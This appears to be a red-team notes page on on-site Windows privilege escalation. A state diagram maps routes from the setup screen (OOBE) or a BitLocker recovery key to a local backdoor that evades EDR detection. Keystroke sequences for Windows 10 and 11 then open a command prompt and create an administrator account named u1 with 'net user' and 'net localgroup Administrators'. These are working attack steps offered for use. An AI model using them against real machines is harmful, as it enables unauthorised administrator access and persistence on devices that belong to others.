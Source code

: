 # On-site privilege escalation

## Summary

<!---
[mermaid.live](https://mermaid.live/edit#pako:eNqNk02P2jAQhv-KZWkvXYLyBRt86IGFnmhZgdpDyR5MPIBLYiPHyUIR_32NDUq2H1JyyXjmmdczycwZZ5IBJrjUVMOE062ihVeHqUDmYVxBprkUaLZIhfM9PKAXaiDQoErnGnM9k9ke1LPR-sHpWMm3EhRpAsjoyBrUCe3hhGpOUQn5xjNQzTNwKgtYS6m_Uc1rILcT4gK9cbGYOmQmKZuXBM0Mgr4vxyamd2hHsz0XW6SlzMs7mNF8bPxMymsdN8vystJoOlkgZjqwzbmUuVhyDS-K19MyI-boleaMDsbBc9gCgtJo0lbCfDw1XKU9ufHW8ojgeADFQVwbcoj9qB-V0dmF_v68d29jrT69Is_7fLtpxUXJGajXBrgGLPFHv6vljm_045fA7wKvcy4YymRRUPPm4pcrqkvqs1b54-2yqGuCZxO8SYv3vMb-zzRZufaMdMtwI9OwbYV_Vuj6b9XmFLqx7T4-wDbd_E8XvlwHBPdwAaqgnJn1s1ORYr2DAlJMjMlgQ6tcpzgVF4PSSsvlSWSYaFVBD1cH1iwsJhual8Z7oOKnlMUdAsa1VF_dhttFtwgmZ3zEJAgH_XDoh4PEj55GURT38AmTwVN_6PtxMgiTOPJHYRxfevi3FfX7SRhGwWiYDOMgTIIgurwDMe9SxQ)
-->

```mermaid
stateDiagram-v2
    direction LR

    %% Parameters
    BitLockerCodeViaBrowser: BitLocker recovery key via self-service
    RebootNative: Reboot in winRE
    LoadOs: Live USB with hacking tools
    LocalBackdoor: Backdoor without EDR detection
    OnSitePrivEsc: On-site privilege escalation
    OOBE: Out-of-box experience

    state OnSitePrivEsc {
        direction LR
        
        [*] --> OOBE: [insider]
        OOBE --> LocalBackdoor: [Shift+F10]
        OOBE --> LocalBackdoor: [blind command injection]
        OOBE --> LocalBackdoor: [Ctrl+Shift+F3]
        OOBE --> LocalBackdoor: [Ctrl-Shift-D]
        --
        BitLockerCodeViaBrowser --> RebootNative
        BitLockerCodeViaBrowser --> LoadOs
        RebootNative --> LocalBackdoor: [inject]
        LoadOs --> LocalBackdoor: [inject]
        --
        LocalBackdoor --> [*]
    }


```

## Option 1
SHIFT+F10

## Option 2 
CTRL+SHIFT+ESC
SHIFT+F10

## Option 3

### Bypass OOBE in Windows 10:
```
CTRL+SHIFT+ESC -> ALT/WIN+TAB -> WIN+R -> cmd.exe -> SHIFT+ENTER -> net user u1 u1 /add
net localgroup Administrators u1 /add
```

### Bypass OOBE in Windows 11:
```
CTRL+SHIFT+ESC -> ALT+N -> net user u1 u1 /add -> TAB -> SPACE -> ENTER
CTRL+SHIFT+ESC -> ALT+N -> net localgroup Administrators u1 /add -> TAB -> SPACE -> ENTER
```
